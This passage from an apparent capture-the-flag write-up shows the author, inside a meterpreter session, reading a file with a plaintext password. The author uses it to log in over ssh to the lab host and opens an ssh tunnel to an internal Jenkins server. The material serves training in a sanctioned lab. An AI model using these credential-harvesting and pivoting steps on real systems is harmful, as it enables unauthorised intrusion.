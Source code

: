 Now that I am in  I went to the opt folder and discovered these credentials:

```bash
meterpreter > cat wp-save.txt

Bill,

Aubreanna needed these credentials for something later.  Let her know you have them and where they are.

aubreanna:bubb13guM!@#123
```

So I entered from ssh:

```bash
ssh aubreanna@10.10.186.60

aubreanna@10.10.186.60's password:
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-112-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Dec 31 21:32:39 UTC 2023

  System load:  0.0               Processes:              114
  Usage of /:   63.8% of 8.79GB   Users logged in:        0
  Memory usage: 44%               IP address for eth0:    10.10.186.60
  Swap usage:   0%                IP address for docker0: 172.17.0.1

  => There is 1 zombie process.

 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

0 packages can be updated.
0 updates are security updates.

Last login: Mon Aug  3 19:56:19 2020 from 10.6.2.56
aubreanna@internal:~$
```

Here we can retrieve the user.txt flag, and we can also see that there is a jenkins server running in `172.17.0.2:8080`

So I made a ssh tunnel using:

```bash
ssh -L 8080:172.17.0.2:8080 aubreanna@10.10.186.60
```

And from there we have a tunnel.
